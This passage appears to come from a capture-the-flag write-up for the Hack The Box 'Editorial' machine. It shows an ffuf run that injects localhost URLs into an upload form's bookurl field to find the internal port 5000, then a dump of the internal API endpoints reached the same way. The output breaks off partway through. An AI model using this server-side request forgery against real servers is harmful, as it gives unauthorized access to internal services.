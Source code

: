 ```console
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
-----------------------------230055699114989147201318430837
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


-----------------------------230055699114989147201318430837--

 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 131ms]
| URL | http://editorial.htb:80/upload-cover
    * FUZZ: 5000
```

Now that I know the internal port, I can access the internal API using the same technique as above. Results from that request are in JSON:

```json
$ cat 9c39f5a9-357a-4385-be32-8d10360b6b33 |jq
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
```